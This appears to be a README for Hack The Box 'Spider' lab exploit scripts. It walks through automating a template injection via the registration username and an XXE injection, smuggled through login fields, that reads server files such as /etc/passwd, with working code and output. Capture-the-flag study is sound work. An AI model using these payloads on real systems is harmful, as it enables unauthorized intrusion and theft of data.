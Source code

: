 # Hack The Box. Machines. Spider

Machine write-up: https://7rocky.netlify.app/en/htb/spider

### `ssti.py`

This Python script is made to automate the explotation of a Server-Side Template Injection (SSTI) which appears when registering a new account at `http://spider.htb` and then reading the user profile. The vulnerable parameter is `username`.

We can perform the POST request using module `requests` (obviously). This request is done to `http://spider.htb/register` specifying `username`, `confirm_username`, `password` and `confirm_password` as request body:

```python
    data = {
        'username': username,
        'confirm_username': username,
        'password': password,
        'confirm_password': password
    }

    s = requests.session()
    r = s.post('http://spider.htb/register', data=data)
```

After that, we need to catch the UUID that the server gives us. For that we can use a regular expression using module `re`:

```python
    try:
        uuid = re.search(
            r'<input type="text" name="username" value="(.*?)" />', r.text).group(1)
    except AttributeError:
        print(r.text)
        sys.exit()
```

If an error occurs, we print the whole response to try looking for errors.

Then, we need to access to the profile created. For that, we need to perform another POST request (this time to `http://spider.htb/login`) specifying `uuid` and `password`:

```python
    s.post('http://spider.htb/login',
           data={'username': uuid, 'password': password})
    r = s.get('http://spider.htb/user')
```

However, this POST request only sets a cookie and redirects to the main page. By using a `requests` session we can keep the cookie for next requests.

If we access `http://spider.htb/user` (with a GET request), here is where we can see the SSTI payload being executed. We know that the data is in the `username` field. Again, using a regular expression we are able to extract the data we are interested in:

```python
    try:
        result = re.search(
            r'<input type="text" name="username" readonly value="(.*?)" />', r.text).group(1)
        result = result.replace('&#39;', "'").replace(
            '&lt;', '<').replace('&gt;', '>')
        print(result)
    except AttributeError:
        print(r.text)
```

Again, if an error occurs, we print the whole response.

Finally, we can execute the script as follows:

```console
$ python3 ssti.py '{{7*7}}'
49
```

### `xxe.sh`

This Bash script automates the process of reading files from the server exploiting an XML External Entity (XXE) injection.

We need to take into account how the XXE is exploitable. First, we need a port-forwarding so that port 8080 in the remote machine is mapped to port 8888 in our attacker machine (we did not choose 8080 because Burp Suite listens on that port).

Then, we can see that the data we provide in the login process is inserted in the cookie provided by the server (use Burp Suite or the browser developer tools to check the form parameters):

```console
$ curl http://localhost:8888/login -svH 'Content-Type: application/x-www-form-urlencoded' -d 'username=7Rocky&version=1.33.7'
*   Trying 127.0.0.1:8888...
* Connected to localhost (127.0.0.1) port 8888 (#0)
> POST /login HTTP/1.1
> Host: localhost:8888
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 30
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 FOUND
< Content-Type: text/html; charset=utf-8
< Content-Length: 217
< Location: http://localhost:8888/site
< Vary: Cookie
< Set-Cookie: session=.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ; HttpOnly; Path=/
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
* Connection #0 to host localhost left intact
<p>You should be redirected automatically to target URL: <a href="/site">/site</a>.  If not click the link.
```

To extract the data contained in the cookie, we can make use of module `flask_unsign` (you can install it with `pip`):

```console
$ python -m flask_unsign --decode --cookie '.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ'
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}

$ echo PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+ | base64 -d
<!-- API Version 1.33.7 -->
<root>
    <data>
        <username>7Rocky</username>
        <is_admin>0</is_admin>
    </data>
</root> 
```

So we have control of the `version` and the `username` field. To perform a XXE we need to insert an entity at the top of the XML document. The entity definition can be placed in the `version` parameter (after closing the comment tag). Then, in the `username` field we can call the entity.

This is the document we want to be generated:

``xml
<!-- API Version 1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<!-- Pwned -->
<root>
    <data>
        <username>BEGINTAG
&xxe;
ENDTAG</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Notice that `BEGINTAG` and `ENDTAG` are placed to use `grep` and extract the relevant data (which will be rendered in `&xxe;`).

This parameters must be placed in a `curl` POST request to `http://localhost:8888/login` as data. We are interested in the cookie that the server returns. That is why we use verbose mode and use `grep` and `sed` to get the exact value of a valid Cookie header:

```bash
data="username=BEGINTAG
%26xxe;
ENDTAG&version=1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM \"file://$file\"> ]>
<!-- Pwned"

cookie=$(curl http://localhost:8888/login -vsd "$data" 2>&1 | grep session= | sed 's/< Set-//g' | tr -d '\r\n')
```

This data of `&xxe;` will be rendered in the website, so we can use `curl` to `http://localhost:8888/site` providing the cookie obtained before:

```bash
res=$(curl http://localhost:8888/site -sH "$cookie")
```

Finally, using `grep` we can filter the file contents. This is done by obtaining the line numbers where `BEGINTAG` and `ENDTAG` are in the HTTP response. Then we can print the data between those numbers using `sed`:

```bash
begin=$(( $(echo "$res" | grep -n BEGINTAG | awk -F : '{ print $1 }') + 1 ))
end=$(( $(echo "$res" | grep -n ENDTAG | awk -F : '{ print $1 }') - 1 ))

echo -n "$res" | sed -n "${begin},${end}p"
```

For example, we can use the script to read `/etc/passwd`:

```console
$ bash xxe.sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
